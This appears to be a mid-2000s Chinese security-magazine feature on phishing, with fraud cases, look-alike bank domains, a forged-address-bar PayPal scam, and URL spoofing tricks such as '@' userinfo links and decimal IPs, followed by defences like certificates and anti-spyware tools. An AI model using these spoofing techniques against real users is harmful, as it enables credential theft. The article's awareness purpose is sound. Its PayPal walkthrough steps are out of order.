姜子牙垂钓于磻溪脚下，其意全不在鱼，钓竿只是一种高士自表不遇的道具。如今，网络飞速发展，各种病毒泛滥，这也导致了网络钓鱼的诱饵千百种，包括数据过期、无效需要更新，或者是基于安全理由进行身份验证，骗取个人账号与密码等，其行为则以利为目的。这类网络骗局对于使用者而言，很难辨别真伪。那么，这些骗局是如何巧妙设置的呢？作为网络用户，又该如何进行有效的防范呢？

#### 垃圾邮件里的大阴谋

垃圾邮件是2005年最受大家关注的话题，其实钓鱼式攻击很大一部分就是通过垃圾邮件来实现的，你知道吗？

#### 1、来自国内的网络钓鱼

先来看看几个典型的综合案例，先让大家大体了解一下钓鱼者究竟是如何实施欺诈的。

案例1：犯罪嫌疑人易某，福建人，初中文化。上网时，无意间看到四川的一家公司在经营窃听器等国家违禁的产品。他寄了500块钱过去，等了20天没有东西来，邮电局跑了好几趟都没有东西。这次被骗的经历让他受到很大的启发，于是他花了600元请别人建了一个主页，把那家卖窃听器公司的网页如法炮制过来，然后在自己的网上公开销售万能钥匙、窃听器、电话监控器等违法产品。

怎么让购买者信任呢？他告诉受害者自己是一家香港公司，地点设在九龙的富华大厦，并声称在中国内地还设有多个销售地点。在网页的后边还特意向购买者解释，因为销售的产品在目前还是很敏感或很具争议的产品，所以要采取特殊的交易方式，要求购买者先汇款后寄货。易某表示，“信口雌黄，随便说，3百5百1千3千也可以，从多叫到少，跟卖东西一样，跟卖菜一样，从两块钱买到一块，可以收到五毛。”上当受骗者把钱汇到易某账户里，他就马上到自动取款机把钱取走。在短短的4个月时间里，易某就通过这个网页诈骗了70多人，他骗取最大的一笔款项是江苏的一位受害者前后给他寄的30000多元，累计骗取人民币40多万元，并用赃款在厦门购买了两套住房，后被逮捕入狱。

案例2：2005年1月初，文小姐购买了一张移动梦网卡，并按上面的提示进行网上注册，她在网上输入自己的手机号并设置密码后，网上显示注册成功，但当她用该注册号和密码进入时，却显示“该注册号已被使用，请重新注册”。当时因为忙，而且出现这种故障也很正常，她也没仔细看，可过了几天，她想上网看电影再查自己的卡时，却发现卡里的600元钱已经一分不剩了。

案例3：某用户收到一封电子邮件称“最近我们发现你的工商银行账号有异常活动，为了保证你的账户安全，我们将于48小时内冻结你的账号，如果您希望继续使用，请点击这里输入账号和密码激活”。邮件落款为“中国工商银行客户服务中心”。随意输了一个账号和密码，竟显示激活成功。假工行网站是 http://www.1cbc.com.cn，它和真正的工行网站 http://www.icbc.com.cn 只有“1”和“i”一字之差。如图1所示。

图1

随着骗术的不断“修炼”提高，有的钓鱼攻击者甚至开始仿冒 IE 地址栏、伪造连接，即使我们打开的网页确实是 http://www.icbc.com.cn 这个地址，我们也不能轻易肯定这就是工商银行的网站。为什么呢？如果你对这方面特别感兴趣，请跳到第二节。

#### 2、骗取 PayPal 用户账号

看完了国内的例子，我们再看看国外的例子。PayPal 是网络拍卖公司 eBay 的子公司，也是 eBay 的在线支付服务商。如同银行及其他的金融机构，PayPal 也成为网络钓鱼攻击者锁定的一块大肥肉。在大多数情况下，攻击者伪造来自银行或者推销商的电子邮件，或者伪装成信用卡付款机制提供者，通知用户的账户需要更新，或者有新的产品出售。电子邮件里通常附带一个链接，该链接指向某个看上去像是官方门户的网站，在那里，用户被指示输入账户信息和信用卡卡号。

以上的方法显然并不高明，但随着网络技术的发展，这些钓鱼攻击者可以运用的欺骗技术越来越多也越来越先进。

第一步，攻击者给用户发送如下的垃圾邮件，也是一个典型的鱼饵。如图2所示。

这封邮件的意思是说，“你已经用……laptopseller@yahoo.com 这个电子邮件地址注册了新的 PayPal 账号，如果你没有确认或者需要帮助，请联系 PayPal 顾客服务。”然后，这封邮件给出了一个貌似 https://www.paypal.com/ 的假冒地址，即 https://www.paypal.com/row/wf/f=ap_emaili，而实际链接地址则是 http://www.fast-email-address.us/phps/，当“上钩者”输入 PayPal 用户名/口令/信用卡信息后，这些资料就通过表单传送到网络钓鱼攻击者那里了。

第二步，当连接被点击时，将显示下面的页面，如图3所示。

“属性”，我们就可以看到真实的页面 URL 地址了。可以看到，这个站点是一个 HTTP 地址，而不是加密的“https”地址，这和状态条上伪造的 HTTPS 地址存在一个很明显的矛盾。如果鱼儿上钩“登录”了，下一个伪造的页面就会显示出来。如图6所示。

第三步，现在，地址栏上出现了钓鱼攻击者站点的真实 URL，这也是整个骗局的弱点之一。不过，在这个 URL 下面所显示的，则是 PayPal 公司的页面。当我们点击“Click here to go to our main page”时，就会显示一个装载了伪造地址栏的页面。原版和伪造的地址栏之间的差别是可见的，但区别十分小，一般用户很难看出来。如图4所示。

第五步，用户的信息输入完毕，然而登录时可能出现“Email 地址与我们的记录不匹配，请重新输入”。也许，将资料拱手相让的用户还不知道自己已经受骗，还在错误地认为可能是自己输入有误。殊不知，这正是钓鱼者玩的一个小把戏。如图7所示。

而这个地址栏下方则完美地显示了 https://www.paypal.com/ 的页面，其以假乱真的手段让人叹为观止。如图5所示。

第四步，辨别真假页面。网络钓鱼者的真实 URL 其实是可见的。在上述页面点击右键，在弹出的选项中选择“属性”，我们就可以看到真实的页面 URL 地址了。

从上述“钓鱼”过程中，我们可以看出钓鱼者做“饵”的手段十分高明，地址栏几乎能以假乱真，传输数据更是在不知不觉中悄悄进行。除此之外，钓鱼式攻击者还可以通过搜索引擎、各种木马、网页等来收集用户的资料，当然，这一切都是在用户认为“理所当然”的情况下进行的。比如，PayPal 公司委托 BenchmarkPortal 公司进行了一场网络意见调查，但因为 BenchmarkPortal 公司设计的某个网页表格的安全措施不安全（这样的漏洞在国内也不少），即设计的选择退出表格有安全漏洞，只要在某人猜中这家公司给某一顾客的意见调查身份编号，表格就会显示出该名顾客的电子邮件地址，这导致了一部分使用者的电子邮件外泄。而对于有心的攻击者来说，猜出有效的身份识别码后，系统就会回传对应的 PayPal 使用者邮件地址。猜到邮件地址后，他们会做些什么呢？

#### 3、垃圾邮件中的社会工程学欺骗

熟练的社会工程学使用者都擅长进行信息收集，很多表面上看起来一点用都没有的信息都会被这些人利用起来进行渗透。类似的社会工程学原理被钓鱼式攻击者巧妙地用在了垃圾邮件的传递中，初次看到 accounts@citibank.com 这个地址，Citibank 的顾客肯定不会有什么怀疑。假如有位 Citibank 的顾客收到了这样一封邮件，如图8所示。

图8

这是一场做得很好的社会工程学骗局。发送者通过合法的伪装来骗取受害者的信任。骗局是这样的：“亲爱的**用户，我们注意到您的账户信息已经过期了，现在需要更新账户信息，如果不及时更改将会导致账户信息失效。”我们注意到，在邮件的醒目之处有一行信息“Please click here to update your billing records”，即“请点击此处更新你的收费记录”。看上去的地址是 http://www.mycitibank.net/，实际上银行地址是 http://www.citibank.net/。

这个网络钓鱼攻击者使用的是 http://www.mycitibank.net/，乍一眼看上去很亲切，实际上是仿冒了银行地址。在简陋的“冲浪”时刻，当用户看到比真实页面还要生动的假冒页面时，可能就会放松警惕性，甚至还会有一种亲切感，如图9所示。

用户输入数据后，还可以通过巧妙的 JavaScript 脚本来迷惑用户，仿冒的站点提供了很多银行的连接，这样就给人以可信的感觉，实际上也是一种社会工程学的暗示。在得到用户的信任，并且使用户输入完毕后，网站通过巧妙的脚本设计，使用户相信自己的数据确实得到了更新。如图10所示。

这些操作完毕后，还会出现“谢谢！我们将会进一步核实你的信息，并尽快联系您！”可见其考虑的周到之处。但是，对于受愚弄的受害者来说，现在所产生的任何疑问都已经太迟了。

图9

图10

类似的案例还有不少：有些钓鱼者发信冒充是来自保险公司的关于信用卡的邮件。这些邮件的意思是联邦保险公司推出了一项新的业务，旨在对那些进行在线交易的用户们提供安全的信用卡服务，并提供了一些商家的优惠信息。这封邮件看上去和普通的邮件没有两样，语气平和，而且给用户提供了很多折扣、免费使用等吸引条件。在看不到损失的情况下，很多用户可能就会通过其提供的地址将信用卡信息拱手相送。另外，他们还给用户以警告，声称“如果忽视我们的要求，我们将不得不终止你的账户”。

#### 网站陷阱让你防不胜防

网络现在是非常普及的，很多人都开始习惯信息、资料都从网络上获取的生活方式，但你可知道普通的网页有时候正是钓鱼者最好的诱饵？

#### 1. MSN 页面上的弹出窗口和伪造表单

MSN Messenger 是微软公司推出的即时消息软件，

## 网络专题企划
**SUBJECT LAYOUT**  
（栏目编辑）刘流 / liuliu@hacker.com.cn

无缝结合的平台再加上优秀的性能，使 MSN 拥有了大量的用户群。如果我们拥有 Hotmail 或者 MSN 的邮件账号，那就可以直接登录 MSN Messenger 而无需再申请新的账号了。看着下面的网站，如果点击邮件中的链接，就会被引诱到伪装成 MSN 站点的假冒网站。假冒网站会显示一个与 MSN 背景类似的弹出窗口，而假冒网站的真实 URL 则被隐藏起来，如图11所示。



图11



图12

真伪难辨。如果将鼠标移到 HTML 链接，状态栏将显示链接目标的 URL。

#### 2. 伪造的 HTTPS 认证页面

简单地说，默认情况下我们所使用的 HTTP 协议是没有任何加密措施的，所有消息都是以明文形式在网络上传送。恶意攻击者可以通过安装监听程序来获得通信内容。而 SSL 可用于在线交易时保护信用卡号、股票交易明细、账户信息等。具备 SSL 功能的浏览器与 Web 服务器通信时，利用数字证书确认对方身份。采用了安全服务器证书的网站会受到 SSL 保护，其网页地址都具有“https”前缀而非“http”前缀。随后文中以网银站点为例说明如何查看认证信息与识别伪造页面。

这个网页骗局主要是使用弹出窗口，采用 JavaScript 的 `window.createPopup()` 方法。黑客使用 Popup 窗口的原因是它支持跨窗口、显示优先级高，并可在页面中伪造与背景相连的界面，从而隐藏可疑 URL。文中进一步说明了关闭脚本、查看属性、识别真实地址等防范方法；并介绍了表单提交中 GET/POST 方式及攻击者在状态栏伪装地址的常见手段，提醒用户提高警惕。


图13

这个页面被打开后，自动装载了一个 Java 程序，并用一个包含合法 URL 的窗口覆盖地址栏的内容。查看页面的属性后，真实的地址实际上是一个 HTTP 地址，而与 HTTPS 根本就没有关系。页面中间的 User ID 和 Password 则等着用户来“上钩”。再看地址栏右下角，根本没有锁的标志。如图14所示。

很多网站都把 HTTP 的 SessionID 放在 URL 中，来代替 Cookie 使用，所以用户并不会十分留意这个 URL 中的数字值和“@”字符。

- 3）名不符实的链接文字

我们知道，链接文字本身并不要求与实际网址相同，那么你就不能只看链接文字了，而应该多注意一下浏览器状态栏的实际网址。如果该网页屏蔽了在状态栏提示的实际网址，你还可以在链接上按右键，查看链接的“属性”。


图14

#### 3. 似是而非：改写 URL 的技巧

在 QQ 或者其他即时聊天工具上，经常有人给我们发送这样一些 URL，大概的形式如下：

```
http://www.xxx.com@xxxxxxxxx（@后面的都是由数字构成）

http://www.xxx.com/outlink/http://www.xxx.com
```

其特征是中间的连接比较复杂。其实，仔细分析一下，这些地址可能是一个圈套。

> 例1：http://www.microsoft.com&item=c209354@www.test.net/pub/mskb/Q209354.asp  
> 例2：http://www.microsoft.com@www.google.com/search?hl=zh-CN&ie=UTF-8&oe=UTF-8&q=asp&lr=

例1中，真正的主机是 www.test.net，而“www.microsoft.com”在这个 URL 中不过是个假用户名，服务器会忽略它。例2中，“www.microsoft.com”将被视为 Google 服务器上的一个用户名，实际指向后面的页面。如果这个地址是具有攻击性或加载了病毒的网页，后果可想而知。虽然这些 URL 在网络标准中都是“合法”的，但实际上它们是假装成可信任的站点，如果有恶意行为，很难立即被发现。遇到这种情况，不妨看看“@”后面的解释，就知道是否有问题存在了。此外，在钓鱼式攻击者制作的网页中，还存在如下的地址欺骗：

- 1）十进制格式 IP 欺骗
- 2）迷惑的虚拟域名

主要是利用一串不知所谓的数字麻痹用户，例如 IP 地址 202.106.185.75，将这个 IP 地址换算成十进制后就是 3395991883，Ping 这个数字后，我们会发现，居然可以 Ping 通，这就是十进制 IP 地址的解析，它们是等价的。

```
http://www.test.com@3633633987/
```

这个网址就达到了以假乱真的目的，它实际指向了 RedHat 的站点。怎么，你还以为指向 www.test.com 吗？！因为很多的网站都把 HTTP 的 SessionID 放在 URL 中，来代替 Cookie 使用，所以用户并不会十分留意这个 URL 中的数字值和“@”字符。

- 4）间接寻址

利用可信站点进行网址欺骗的方法就是“间接寻址”。很多网站通过如下链接来引导访问者来此地址“http://www.aaa.com/outsidelinks/http://www.bbb.com”，在服务器端捕获请求信息后，再把用户重新定位到目标网站上。这使任何人都能使用这种间接寻址服务。

- 5）Unicode 编码

Unicode 编码有安全性的漏洞，这种编码本身也给识别网址带来了不便。面对“%20%30”这样的天书，很少有人能看出它真正的内容。

除了 Unicode 编码外，以上提到的几种欺骗手段都是可以察觉的。在发现可疑网址时，朋友们可要记得先用上面的知识点“过滤”一番，以免上当受骗。

#### 间谍软件骗你没商量

相对于垃圾邮件和网页欺骗来说，间谍软件更具有迷惑性，同时也更有威力。它往往能让网民们无法察觉，直到造成了实际的损失才发现原来自己已经被间谍软件所控制。

#### 1．“协议钓鱼”：愿者上钩

我们在安装各类软件的时候，对它的声明或者服务条款都不会一个字一个字去读完吧？你知道里面究竟说了什么吗？

我们来看看 CuteFTP 5.0 的安装协议，估计很少有人仔细看这些东西：

> 5．信息收集。本软件具有一种功能，能够基于系统信息为您的计算机指定一个独特的号码。当您安装本软件及/或输入您的注册码时，本软件会把该独特的号码报告给我们。本软件还可能识别并向我们报告您的 Windows 语言识别器设置、IP 地址、以及安装及/或注册日期和时间。我们仅仅把该信息用于计算安装数目、检测盗版和编排关于用户地理位置的计数统计数据。如果您注册使用我们的软件，我们会把上述信息与我们保存的能够识别您身份的信息综合使用。  
> 6．终止协议。如果您未能遵守本特许协议条款和条件，本协议即告终止。如果您的特许权终止，您必须销毁本软件之所有拷贝。本特许协议终止并不限制作 GlobalSCAPE 依据法律可能享有之其他权利。  
> 9．无保证。在有关法律许可范围内，本软件及任何支持服务“按现状”提供，不作任何明示或隐含保证……

担保不限于隐含法律性保证、特殊用途适用性保证或非侵犯保证。如果相关法律要求您提供保证，要求提供的保证仅限于九十（90）日内，从您收到本软件拷贝之日算起。计算机程序本身就很复杂，软件也可能无法避免出错。软件连同其所有缺陷一道提供，您对质量、性能、准确性及操作等方面之满意程度自行承担所有风险。

看明白了吗？其实大多数协议书中都有“The SOFTWARE PRODUCT is ad-sponsored software.”的提示。当你发现系统信息被发送出去、软件突然弹出广告页面的时候，你有话说吗？因为，我们中的大多数确实点击了“I agree”或者“我同意”按钮。我们能够说这不是一个更高明的“陷阱”吗？这就是钓鱼式攻击的一个“温床”。通过这类软件，更多的钓鱼者在捕获计算机相关数据，如操作系统、服务器以及密码、信用卡号和其他机密数据。当间谍软件、垃圾邮件、仿冒的网页文件“三剑齐下”的时候，我们还能对所处的网络环境坦然、放心吗？

### 2．“虚拟”中的真实攻击——

2004年4月18日，我国出现偷取国内某银行个人网上银行账号和密码的木马 Troj_HidWebmon.A，并在次日出现其变种，接下来还出现了此类病毒。这类病毒通常会使用截取用户键盘输入的方式获取用户的个人信息，包括网上银行的账号和密码等，并将窃取到信息发送到指定的邮箱。虽然获得了账号和密码并不足以盗取被窃者的存款，但在通过其他途径获得数字证书等信息后，病毒的制作者就可以登录网上银行并窃取用户存款了。

国内虚拟货币方面存在着这种钓鱼式攻击现象。由于网络游戏要通过电脑并连接到网络上才能运行，因此会有玩家通过编写自动木马病毒来进行盗号。这种自动木马盗号方式是这样的：用户编制好盗号木马后，会通过邮件群发软件或木马病毒本身的发信机制，向网络中所有的地址发送病毒邮件。这种病毒邮件大部分具有诱惑性的标题和内容，一旦有游戏玩家收到这样的信件并运行了附件的病毒后，病毒就会隐藏在游戏玩家的电脑中，寻找病毒感兴趣的游戏信息，然后再通过网络发送到指定的邮箱。编写病毒的玩家只要定期登录该邮箱，就可得到这些自动木马发回的游戏账号信息，使中了该木马病毒的游戏玩家遭受损失。

病毒作者会将这类木马病毒隐藏在一些个人网站的主页中，然后通过 QQ、论坛等方式将这些含有病毒网址的主页宣传出去，使一些不知情的用户通过浏览这些网页中毒。用户一旦登录该病毒网页，就会使网页中隐藏的盗号木马病毒激活，从而进入用户系统中。当然，病毒作者也可以通过向外发送大量带病毒邮件的方式来使该病毒广泛传播。入侵成功后，远程黑客程序主动寻找用户的游戏信息。这种方法不但能够偷盗用户的游戏账号，还能偷盗用户隐私信息，因此危害性更大。

#### 反钓鱼从这里开始

反钓鱼是我们一直关注的话题，如何才能有效地抑制钓鱼式攻击的影响范围和成功率是大家讨论最热烈的问题。大概从形式上说可以分成两种形式：防御与追踪。从针对面来说分垃圾邮件、恶意网页、恶意程序等。

### 1．反钓鱼之一，邮件中的身份认证——

收到垃圾信件后，很多朋友会毫不犹豫地说：“当然是要查出寄信人的 IP 了”。其实，在对付垃圾邮件方面，主要有两种形式：防御与追踪。防御主要是强调对垃圾邮件的过滤或者是阻止垃圾邮件的产生，而追踪则强调主动地追查垃圾邮件来源，并对其进行警告或者采取其他措施。

据美国在线称，2005年最常用的垃圾邮件主题中，药品与网络钓鱼高踞排名榜首。一般来说，邮件内容、Reply-to、最终邮件服务器的“received:”的内容有助于我们追踪垃圾邮件的来源。对于“Received:”域来说，我们可以从时区出错、时间误差、IP 地址错误这几个方面来追查。不过，从用户的角度来讲，杀毒不如防毒，Qurb 2.0 就是一款优秀的防护软件。软件下载地址为 http://www.qurb.com/zh-CHS/。

使用 Qurb 后，只有来自熟人的重要邮件才会出现在收件箱内。来自陌生人的邮件将被隔离，你可等到方便的时候再去查看这些邮件。另外，Qurb 还可将已经允许的邮件自动移入你的收件箱，而余下的邮件则留在 Qurb 隔离文件夹内，隔离文件夹内的邮件将在 30 天后自动删除，但是也可在此时间之前恢复任何邮件。一旦安装后，它就会创建一个基于用户现有地址簿的清单。其作用和我们日常生活中的手机“来电显示”功能比较类似。如图15所示。


图15

不过，在浩瀚的网络中，我们肯定不会封闭自守，怎么来保证发信人、银行网站、电脑上所安装的软件的真实性呢？要解决这样的问题，目前最好的解决办法是使用公开密钥加密系统 PKI。只有保证了网络安全的四大要素，即信息传输的保密性、数据交换的完整性、发送信息的不可否认性、交易者身份的确定性，电子商务活动才能蓬勃发展起来。

用户可以为自己申请数字证书，也可以为一台安全服务器申请数字凭证。目前有几个 CA 中心提供试用型数字证书，其中申请程序可在即时网上完成，并立即可以免费使用。下面提供一个比较好的站点，申请地址为 https://testca.netca.net/。当收件人收到并打开有数字签名的邮件时，将看到“数字签名邮件”的提示信息，按“继续”按钮后，才可阅读到该邮件的内容。通过第三方的认证，我们可以确认该邮件的真实性。如图16所示。


图16

随着网络钓鱼者的技术手段不断提高，随信附带的各种附件也开始悄悄发展起来。怎么保证这些文档的真实性？利用数字证书对文档进行加密和解密，保证文档在传递过程中不被窃取，充分保护用户的利益。如果文档已经被别人篡改过，将弹出提示文档已经被篡改的信息，这样就可以知道接收到的文档是否在传递途中被别人截获并改动过。如图17所示。


图17

此外，我们还可以通过另外一款经典的软件 PGP 了解身份认证技术的一些基本原理，它和整个身份认证系统有着异曲同工之妙。这是一个进行加密签名后的邮件，只有接收邮件的朋友才可以解密。如图18所示。


图18

> 数字证书技术包括很宽的范围，在各大企业、政府部门的网络中应用都非常多，有需要了解这项技术的朋友可以参考《钓鱼式攻击》一书，书中通过详实的例子给出了签发、申请、使用的方法。

#### 2．反钓鱼之二：网站身份的确认

谈到这里，我们可能会感到有些茫然：这么多网站，伪造者的手段那么高明，那到底该相信谁呢？一些正规银行、大型企业的网站浏览器右下角出现的“锁”标志是如何制作出来的呢？它确实能够保证我们所进入的站点可靠而不至于上当受骗吗？

就像我们加入党组织需要写入党申请书一样，申请服务器证书也要首先提交申请书。现在有很多 CA 网站可以提供收费的服务器证书，不过价格比较高。当然，也有不少站点提供免费的服务器测试证书，其中的原理都是一样的。与收费证书相比，在于它没有通过现场的身份认证。比如，我们登录 https://testca.netca.net/applv_srv/srv_root.asp，填写相关信息后，打开并输入服务器证书申请文件 certreq.txt，得到服务器证书受理号和密码。最后，就可以得到一个后缀名为 .cer 的服务器证书文件。安装证书后，在 Windows 2000 中打开 Internet 信息服务管理器，然后打开要为之申请证书的站点的属性：选择“目录安全性”，选择“服务器证书”。我们发现，现在下方的3个按钮都能够使用了。

单击“查看证书”按钮，可以查看当前网站的服务器证书信息。单击“编辑”按钮，就可以对访问用户进行控制了。比如“申请安全通道”、“申请128位加密”、“接收客户证书”和“启用客户证书映射”等。如图19所示。


图19

在 IIS 管理器中选择“启用客户证书映射”将客户证书映射到 NT 账号。可以映射某张证书，也可以映射所有根证书所签发的客户证书。当站点使用安全协议时，我们所提供的信息例如姓名或信用卡号码等都经过了加密，这样其他人就无法读取，就好像网站为我们开辟了一个单独的贵宾通道一样。在这样的安全保护下，我们就能轻而易举地辨别“钓鱼”网站的真假了。

### 3．反钓鱼之三：揪出007

现在的间谍越来越猖狂了，他们冒充微软公司用 security@microsoft.com 这样的邮件地址，以“Microsoft Windows Update”为标题，来欺骗用户，甚至威胁“如果你不按照我们的要求去做，Windows 将会不断地要求你再度激活序列号，然后将无效，你不能够再使用该操作系统。这样，你在电脑上的所有信息都将丢失，你的 Windows 也将标上盗版的标签。”

2004年底，微软公司通过收购的手段发布了 AntiSpyware，该软件能够检测和清除计算机系统中的间谍软件或其他具有潜在危害的软件。

Microsoft 官方下载地址为：  
http://download.microsoft.com/download/8/1/5/815d2d60-49b5-44dc-ae35-fca2f2c6f0cc/MicrosoftAntiSpywareInstall.exe

安装后，软件的三大功能可以通过点击软件右上方的按钮实现。其中，手动和定时扫描功能是 AntiSpyware 最主要的功能。现在，我们以这个软件为例，进行一次“反间谍”行动。

第一步，点击界面右上角的“Spyware Scan”按钮，在出现的界面中直接点击“Run Scan Now”，扫描过程便开始了。扫描完毕，我们会得到一个扫描报告，这里我们可以看到间谍软件的数量、内存进程扫描数量、扫描文件数、受感染的文件数量、被扫描的注册表键数等，如图20所示。


图20

第二步，选中一个扫描结果，在软件的右边查看其详细信息。我们看到上面包括了类型、危害级别、作者、介绍以及对处理该间谍软件的建议等。处理的手段包括卸载、忽略、隔离、总是忽略4种。处理时，要注意“Threat Level”一项，这是 Microsoft AntiSpyware 对该间谍软件危害程度的评价，如果其结果为“High”，建议将其隔离或者卸载。

第三步，间谍分析。通过上面的扫描，我们发现了3个软件，分别是 FlashGet Adware、Cydoor Adware、CnsMin Browser Modifier。在此例中，以 FlashGet Adware 为例，我们注意到其危害级别比较严重，即受到恶意利用的可能性也很大。鉴于网络存在很多不受用户欢迎的黄色广告、欺诈广告或直接会给用户系统造成危害的恶意网页导引页，因此，对于该软件最好清除。对于被检查出来的其他软件，我们也可以根据提示点击左边的按钮进行相应处理。如图21所示。

类似的优秀软件还有很多，如 Ad-aware V6.0 也是一个很实用的系统安全工具，它可以扫描广告跟踪文件和相关文件，除了扫描速度相当快，还能够生成详细的报告，并且可在瞬间删除这些文件。


图21

不过，网络上的软件那么多，不小心下载并安装了有问题的软件是很平常的事情。如何保证软件的真实性？通过专门的代码签名软件和数字证书，软件的真实性和完整性可以通过公正的第三方机构来保证。我们可以到 http://www.sheca.com/down/codesign_v20.zip 这个地址下载一个专门的代码签名软件。经过签名后，setup.exe 文件的“属性”面板上多了一个选项卡“数字签名”。如果文件属性中没有“数字签名”的相关信息，表示签名失败或者文件没有经过数字签名。如图22所示。


图22

### 4．多管齐下 从我做起

首先，我们要争取有利的外部环境，多看多观察，提高自己的警惕。在反钓鱼式攻击方面，反网络钓鱼工作小组（简称 APWG）就是一个比较知名的专业工作组。它由包括美国十大银行中的8家、五大互联网提供商中的4家和来自澳大利亚、加拿大、英国以及美国的法律执行部门等在内的大约800名成员组成。这些机构的职责是向产业股份持有人提供一个保密论坛以讨论网络钓鱼问题。网站地址为 http://www.antiphishing.org。  
如果用户收到了一个 Phishing 电子邮件，可以通过如下这个电子邮件把它提交给 APWG 工作组：reportphishing@antiphishing.org。

其次，要加强邮件、系统安全，做好日常的系统防护工作，这在相关的安全杂志和技术站点都有详细的介绍。对于涉及到金融、证券、虚拟货币财富、重要账号信息的网站，一定要注意其右下方的黄色小锁，双击它并查看其信息的真实性。

最后，无论何时何地，我们都要记住：天上是不会掉馅饼的。


图23

能掉下馅饼的，没有付出不可能有收获。要防止“网络钓鱼”诈骗，对以下具有诈骗迹象的内容一定要注意。

- 向您承诺：只需付出很少的劳动或不需劳动，便可获得极大回报。  
- 向您承诺：您决不会赔钱。您有机会检查产品和业务，要求您预先支付大笔款项。  
- 向您担保“这绝不是诈骗！”，并引用一些特定法律以证明其合法性。  
- 当广告上布满了大写字母和符号，或大声疾呼“疗效神奇！”“快速赚大钱$$$$$!!!!!”时应保持警惕。  
- 要特别警惕数额较大且要求次日交易的订单；在将产品运送到国际地址时应谨慎，通过电子邮件或电话验证信息。  
- 识别并检查销售者等级；在拍卖站点（如 eBay）查看买卖双方互留评语，核查是否提供保险。

通过以上的事例分析和防护方法，相信大家对钓鱼式攻击应该有了大概的认识……如想进一步了解钓鱼式攻击详情、伪装技术实现、社会工程学运用，请看《钓鱼式攻击》一书。

